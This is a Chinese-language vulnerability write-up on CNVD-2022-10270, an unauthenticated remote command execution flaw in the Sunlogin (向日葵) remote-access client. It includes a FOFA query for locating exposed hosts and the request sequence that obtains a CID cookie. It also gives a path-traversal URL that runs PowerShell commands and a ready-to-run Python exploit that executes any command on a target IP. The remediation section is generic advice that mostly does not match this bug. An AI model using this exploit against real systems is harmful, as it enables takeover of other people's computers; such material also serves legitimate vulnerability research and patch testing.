 # 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

```
11.0.0.33162
```

## FOFA

```
body="Verification failure"
```

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口

![image-20220524135408561](./images/202205241354598.png)

发送请求获取CID

```
/cgi-bin/rpc?action=verify-haras
```

![image-20220524135428094](./images/202205241354132.png)

使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

![](./images/202205241354108.png)

## 漏洞修复

1. 输入检查:应用程序必须实现输入检查机制，将所有从外部接收的数据都进行严格的检查和过滤，防止恶意代码被注入。
2. 参数化查询:采用参数化查询可以防止攻击者通过利用应用程序的注入漏洞来修改查询语句，实现任意代码执行的攻击。
3. 输出编码:在输出时对敏感字符进行编码保护，比如 HTML 编码，防止恶意代码直接输出执行。
4. 使用最新的安全防护措施:保证服务器系统和应用程序的所有组件、库和插件都是最 新的，确保已知的漏洞都得到修复。
5. 强制访问控制:应该设置访问控制机制，确保恶意用户无法访问敏感数据和代码。

## 漏洞POC

exp：

```
import requests,sys
 
ip = sys.argv[1]
command = sys.argv[2]
payload1 = "/cgi-bin/rpc?action=verify-haras"
payload2 = "/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe+"
headers = {
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0'
}
 
if "http://" not in ip:
    host = "http://" + ip
else:
    host = ip
 
try:
    s = requests.Session()
    res = s.get(url=host + payload1,headers=headers)
    if res.status_code == 200:
        res = res.json()
        Cid = res['verify_string']
        headers.update({'Cookie':"CID=" + Cid})
        res1 = s.get(url=host + payload2 + command,headers=headers)
        res1.encoding = "GBK"
        print(res1.text)
    else:
        pass
except Exception as e:
    print(e)
```

